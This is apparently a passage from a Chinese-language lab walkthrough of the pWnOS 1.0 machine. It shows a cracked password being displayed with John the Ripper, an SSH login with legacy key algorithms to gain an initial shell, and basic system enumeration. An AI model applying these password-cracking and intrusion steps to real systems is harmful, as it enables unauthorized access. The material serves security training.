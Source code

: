     # 查看已破解的密码
    └─$ john --show Pass-crash 
    vmware:h4ckm3
    
    1 password hash cracked, 4 left
    
    
    ```

-   使用ssh进行登陆尝试 --> 密钥类型不匹配，需要指定类型为：`ssh-rsa,ssh-dss`

-   获得初始shell

-   ```shell
    └─$ ssh vmware@192.168.2.138
    Unable to negotiate with 192.168.2.138 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
                                                                                                         
    ┌──(kali㉿kali)-[~/Documents/WalkThrough/pWnOS1.0]
    └─$ ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss vmware@192.168.2.138
    The authenticity of host '192.168.2.138 (192.168.2.138)' can't be established.
    RSA key fingerprint is SHA256:+C7UA7dQ1B/8zVWHRBD7KeNNfjuSBrtQBMZGd6qoR9w.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '192.168.2.138' (RSA) to the list of known hosts.
    vmware@192.168.2.138's password: 
    Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    Last login: Thu May 25 22:33:04 2023 from 192.168.2.128
    vmware@ubuntuvm:~$ sudo -l
    [sudo] password for vmware:
    Sorry, user vmware may not run sudo on ubuntuvm.
    vmware@ubuntuvm:~$ ip a
    1: lo: <LOOPBACK,UP,10000> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,10000> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:5e:18:c9 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.138/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:fe5e:18c9/64 scope link 
           valid_lft forever preferred_lft forever
    vmware@ubuntuvm:~$ uname -a
    Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
    
    
    ```

